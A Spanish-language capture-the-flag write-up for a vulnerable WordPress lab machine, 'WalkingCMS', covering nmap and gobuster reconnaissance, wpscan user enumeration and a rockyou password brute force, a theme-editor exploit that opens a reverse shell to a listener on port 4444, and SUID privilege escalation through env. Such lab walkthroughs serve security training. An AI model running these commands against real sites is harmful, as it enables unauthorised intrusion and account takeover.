





**1. Información**

La maquina walkingCMS se trata de un wordpress vulnerable donde 
vamos hacer uso de nmap para escanear la ip dada, gobuster para 
encontrar directorios ocultos, wpscan para realizar un ataque de 
enumeración de usuarios y contraseñas, abuso de temas de wordpress 
mal configurados, reverse shell y abuso de SUID para elevar 
privilegios.


**2. Reconocimiento con nmap**

Una vez desplegado el docker de la maquina, procedemos a realizar 
un reconocimiento con nmap, pero antes que nada, realizamos un ping 
para comprobar conectividad con la maquina victima, realizado el 
ping pasamos a realizar el escaneo con nmap.

```bash
sudo nmap -sS -sV -Pn -T4 -p- --open -oA trust 172.17.0.2
```


Como podemos observar, tenemos el puerto 80 abierto donde corre un 
apache, indicio de una pagina web.


**3. Fingerprinting Web (Reconocimiento Web)**

Empezamos por hacer un reconocimiento web, abrimos la pagina en 
nuestro navegador para ver que nos encontramos:


No hay nada interesante, pero debemos tener en cuenta que dentro 
del directorio /var/www/html/ pueden haber otras paginas alojadas, 
por lo cual debemos hacer un fuzzing web de directorios.

```bash
gobuster dir -u 172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,sh,py,txt,bak,zip
```


Y con esto, nos encuentra un directorio wordpress, realizamos un 
segundo fuzzing a wordpress.

```bash
gobuster dir -u 172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,sh,py,txt,bak,zip
```


Lo primero que vamos hacer revisar las paginas que nos aparecen, 
entre ellas una que nos interesa es el directorio /wordpress/wp-
login.php 


**4. Auditoria con wpscan**

Para auditar un wordpress, usamos la herramienta wpscan, pero antes 
de poder usarla primero tendremos que usar la API, ya que WPScan 
necesita API token para enumerar vulnerabilidades (vuln DB), para 
esto nos dirigimos a la pagina de la herramienta: 
https://wpscan.com, nos creamos una cuenta y copiamos el API Token, 
luego lo exportamos y podemos hacerlo persistente.

Hecho esto procedemos a realizar el escaneo con wpscan:

```bash
echo 'export WPSCAN_API_TOKEN'
```
```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u                  
```


Con el escaneo encontramos un usuario:




ahora realizamos un ataque de fuerza bruta con wpscan al usuario 
mario:

```bash
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```


Tambien podemos enumerar plugins y temas para encontrar alguno con 
alguna vulnerabilidad:

```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate ap,at
```





**5. Reverse shell y escalada de privilegios.**

Para realizar la explotación, vamos a entrar a la pagina de 
administración e instalar el tema twentyfifteen, luego nos bajamos 
este exploit: https://github.com/nisforrnicholas/WordPress-Theme-
Editor-Exploit/tree/main 

Vamos a levantar un listening en nuestra maquina atacante y en otra 
pestaña realizamos el exploit. 

```bash
python3 wpte_exploit.py http://172.17.0.2/ mario love twentyfifteen 172.17.0.1 4444 linux
```


Y una vez realizado el exploit obtenemos una reverse shell.

```bash
nc -lvnp 4444
```

```bash
python3 -c 'import pty,os; pty.spawn("/bin/bash")' 2>/dev/null || true
export TERM=xterm; stty rows 40 columns 120
```


NOTA: realize una series de comandos para estabilizar la 
tty.

```bash
find  / -perm -4000 -type f 2>/dev/null
```
Empezamos a realizar una enumeración manual.


Este comando busca todos los archivos que tienen el bit SUID 
(permiso 4000) y son ficheros (-type f). El SUID hace que, cuando 
ese binario se ejecute, su proceso tome la identidad del 
propietario del fichero (normalmente root) en lugar de la del 
usuario que lo ejecuta.

Con esta busqueda podemos dirigirnos a la pagina 
https://gtfobins.github.io/ y buscamos el binario env, con este 
binario vamos a poder escalar privilegios.


Ahora ejecutamos la ruta absoluta y escalamos privilegios.




De esta manera terminamos la maquina WalkingCMS.